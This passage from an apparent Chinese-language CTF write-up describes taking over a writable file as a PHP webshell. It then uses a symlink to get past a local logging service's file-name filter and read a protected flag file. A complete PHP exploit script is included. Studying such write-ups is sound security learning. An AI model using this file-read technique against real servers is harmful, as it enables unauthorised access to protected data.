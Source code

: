 3. 根据hint: 这shell十分的珍贵，应该先看看有什么东西。不止有php奥

   发现这个wwwweeebbbb.txt也是可读可写可执行，直接改成wwwweeebbbb.php

   删掉其中内容后得到了一个`#Halo AntSword`，这时候觉得做对了，继续看其他文件

   看到Loging.php在往127.0.0.1:33333发包

   将wwwweeebbbb.php的内容改为以下内容（这时候还没加符号链接）

   看到/var/App/www/App下有一个LoggingSoket.py，接受127.0.0.1:33333发送的包，且对file_name有正则检验，` r"flag|key|\."`，我绕不过去（）

   ``` php
   <?php
   $host = '127.0.0.1'; 
   $port = 33333;      
   $file_name = 'nmmd';
   // 创建符号链接
   if (symlink('/app/flag', '/tmp/nmmd')) {
       echo "symlink success";
   } else {
       echo "symlink error";
   }
   // 创建socket
   $socket = socket_create(AF_INET, SOCK_STREAM, SOL_TCP);
   if ($socket === false) {
       echo "socket_create() 失败: " . socket_strerror(socket_last_error()) . "\n";
       exit;
   }
   
   $result = socket_connect($socket, $host, $port);
   if ($result === false) {
       echo "socket_connect() 失败: " . socket_strerror(socket_last_error($socket)) . "\n";
       socket_close($socket);
       exit;
   }
   // 要发送的data
   $form_data = [
       'file_name' => $file_name,
       'key' => md5('web' . trim(file_get_contents('/w')))
   ];
   
   $json_data = json_encode($form_data);  
   socket_write($socket, $json_data, strlen($json_data)); 
   $buffer = socket_read($socket, 1024, PHP_BINARY_READ);  
   socket_close($socket);
   echo $buffer; 
   ?>
   ```

4. 所以用symlink将`/tmp/nmmd`（这个名随便）链接到`/app/flag`，这样LoggingSoket.py接收到包后，由于`Path('/tmp').joinpath( upload_name).resolve()`中有resolve，将会把任意链接转换成绝对链接，故执行效果为将`/app/flag`复制到`/tmp/flag.txt`，可以查看，得到flag
